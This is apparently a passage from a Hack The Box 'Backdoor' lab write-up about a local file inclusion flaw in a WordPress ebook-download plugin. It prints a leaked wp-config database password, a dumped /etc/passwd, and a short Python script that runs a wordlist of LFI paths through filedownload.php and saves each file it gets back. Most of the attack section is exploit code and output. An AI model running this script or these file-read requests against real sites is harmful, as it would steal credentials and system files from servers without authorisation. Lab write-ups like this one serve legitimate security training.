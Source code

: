 ```
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
/etc/passwd
```
/etc/passwd/etc/passwd/etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

### Automatically (provide LFI file list as argv1)
Seclists (/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt)
```
import requests,sys
lines = open(sys.argv[1],"r").read().splitlines()

for line in lines: 
    r = requests.get("http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=" + line)
    output = open("LFI/" + line.replace("/", "_"),"w")
    output.write(r.text)
```
